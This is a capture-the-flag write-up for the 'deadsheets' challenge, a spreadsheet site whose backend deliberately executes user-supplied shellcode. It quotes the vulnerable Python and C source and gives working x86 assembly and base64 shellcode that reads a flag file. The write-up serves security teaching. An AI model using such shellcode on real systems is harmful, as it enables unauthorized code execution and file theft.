

# deadsheets

> Greetings and salutations, cyber-sleuths and code-crackers! Do you fancy yourself a master of the matrix, a wizard of the web, or a guru of the code? Well, hold on to your hats because we've got a challenge that will have you hacking your way to glory!
>
> Introducing our latest cybersecurity CTF challenge, where you'll be diving headfirst into the depths of a custom "dead" database - yes, you heard that right, DEAD as in Dangerously Extensible Ancient Database! Now, this might sound like a graveyard for your cyber-skills, but don't let the name fool you. This database is so ancient and terrible that it has more holes than Swiss cheese! And your task, dear challengers, is to find those holes and exploit them like a boss!
>
> But wait, there's more! Our challenge involves a spreadsheet website where you'll have to inject some shellcode to make the backend server dance to your tune. Think you've got what it takes to make that happen? Well, it's not going to be easy, but with some clever shellcode and a lot of tenacity, you just might be able to hack your way to the coveted flag file!
>
> So, dust off your hacking tools, flex those cyber-muscles, and get ready to take on this challenge like a pro. It's time to show the cyber-world what you're made of!

Provided: [`deadsheets.tar.gz`](deadsheets.tar.gz)

## Solution

I'm not sure why but that challenge description gives me really strong ChatGPT vibes :)
Like it mentions though this is a shellcode challenge, although we interact with it through a website which is a bit interesting.

Extracting the provided tarball gives us a bunch of files, but `app.py` looks interesting, specifically the `update` function/route:

```python
# app.py, lines 34-47
@app.route('/update', methods=['POST'])
def update():
    name = request.json['uuid']
    sheet_path = Path.cwd().joinpath(f"{name}.dead")
    if sheet_path.exists():
        row = request.json['row']
        col = request.json['col']
        ex = request.json['ex']
        value = request.json['value']
        command = ("./dead", sheet_path, f"UPDATE{'_EX' if ex else ''}", f"{row},{col}", value)
        subprocess.run(command)
        return "ok"
    else:
        return 'Sheet not found', 404
```

Based on that, it looks like the `dead` binary is used to update the contents of sheets while they're being edited on the website.
The `dead` binary itself is compiled from `db.c` based on the Makefile:

```Makefile
all:
	gcc -m32 -no-pie db.c -o dead
```

In `db.c` itself, we can check out the help message (which you can also see just by running the `dead` binary without any arguments):

```c
    // db.c, lines 57-72
    if (argc != 5) {
        printf(
            "dead: CLI utility for the Dangerously Extensible Ancient Database\n"
            "\n"
            "Usage: ./dead <filename> <operation> [cell] [argument]\n"
            "  filename      Name of the file update\n"
            "  operation     UPDATE or UPDATE_EX\n"
            "  cell          If operation is UPDATE or UPDATE_EX, specifies the row,column of the\n"
            "                cell on which to perform the update operation\n"
            "  argument      If operation is UPDATE, specifies the value to update the cell with\n"
            "                If operation is UPDATE_EX, specifies the base64 encoded shellcode used\n"
            "                to update the cell. The shellcode starts at address "
        );
        printf("%p\n", shellcode);
        return 1;
    }
```

Based on that, it looks like we want the `UPDATE_EX` operation since that's the one that allows us to execute arbitrary shellcode :)
We can achieve that by changing to extensible mode in the web editor and entering a Base64-encoded shellcode into a given cell.

Although we could technically execute any shellcode shorter than the maximum length of 4096 bytes, popping a shell here wouldn't be super useful since we wouldn't get to interact directly with it (we only get to view the results after a POST request).

Based on the part of `db.c` that executes our shellcode, it looks like it expects our shellcode to return a string (well, a `char*` :)):

```c
// db.c - lines 121-136
    if (ex) {
        int shellcode_length;
    		char *decoded = base64_decode(argument, &shellcode_length);
        shellcode_length = shellcode_length < MAX_LEN ? shellcode_length : MAX_LEN;
        memcpy(shellcode, decoded, shellcode_length);
        free(decoded);

        // Run shellcode to determine the value with which to update the cell
        mprotect(shellcode - ((long int)shellcode % 4096), 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
        char *(*shellcode_func)() = (char *(*)())shellcode;
        char *result = shellcode_func(); // <--- this is the interesting line

        // Copy the result of running the shellcode into the cell
        contents[row][col] = malloc(strlen(argument) + 1);
        memcpy(contents[row][col], result, strlen(result) + 1);
    }
```

Now, if only there was a way to somehow read the flag file into memory and get a pointer to the resulting string :)
Luckily for us, there is!
Because we can execute completely arbitrary shellcode, we can make arbitrary syscalls as well, including the [`open(2)`](https://www.man7.org/linux/man-pages/man2/open.2.html) and [`read(2)`](https://www.man7.org/linux/man-pages/man2/read.2.html) syscalls which do exactly what they sound like :)

In the end, my team ended up doing the following with our payload:

1. Save a few registers' values to the stack to restore later (otherwise things break)
2. Use the `open` syscall to get a file descriptor to the file `flag`
3. Use the `read` syscall to read the contents of `flag` into memory, using the file descriptor obtained from `open()`
4. Restore the registers modified by the syscalls
5. Return a pointer to the string representing the contents of `flag`

Writing out the assembly to do all that by hand proved to be a bit of a pain, but I discovered later that pwntools has a lot of convenience functions for dealing with shellcode in the [`shellcraft`](https://docs.pwntools.com/en/stable/shellcraft.html) module.
I guess you're probably supposed to close the file descriptor after using it but hey, if it works it works :)

Here's the actual generated assembly to do all of that:

```asm
// push registers modified by syscalls onto stack for restoring later
push ebx
push ecx
push edx

// open the `flag` file for reading (autogenerated by pwntools)
/* open(file='flag', oflag=0, mode=0) */
/* push b'flag\x00' */
push 1
dec byte ptr [esp]
push 0x67616c66
mov ebx, esp
xor ecx, ecx
xor edx, edx
/* call open() */
push SYS_open /* 5 */
pop eax
int 0x80


// read the contents of `flag` into the .bss section of memory (40 bytes is arbitrary)
// (autogenerated by pwntools)
/* read(fd='eax', buf=0x804c060, nbytes=0x28) */
mov ebx, eax
push 0x804c060
pop ecx
push 0x28
pop edx
/* call read() */
push SYS_read /* 3 */
pop eax
int 0x80


// return a pointer (address) to the contents of `flag`
// note that this address is the same as `buf` for the read syscall
mov eax, 0x804c060

// move stack pointer back down (up?) since it was moved while setting up the open syscall
add esp, 8

// restore registers back to original values by popping them back off the stack in reverse order
pop edx
pop ecx
pop ebx

// return :)
ret
```

You can see exactly how it was generated in the [`Python script`](gen_shellcode.py) I wrote.
When you run it, it also outputs the resulting base64-encoded shellcode to enter into the deadsheet editor website:

```shell
$ python gen_shellcode.py
# --snip--
U1FSagH+DCRoZmxhZ4njMckx0moFWM2AicNoYMAECFlqKFpqA1jNgLhgwAQIg8QIWllbww==
```

After making sure you're in extensible mode and pasting that into a deadsheet cell, reloading the editor should give you the flag in that same cell:

<div align="center">

</div>

And there's our flag: `osu{53cur17y_15_0v3rr473d}`!
Can't say that I agree but hey, this was definitely a good demonstration of how Secure™ legacy code tends to be in the name of backwards compatibility :)
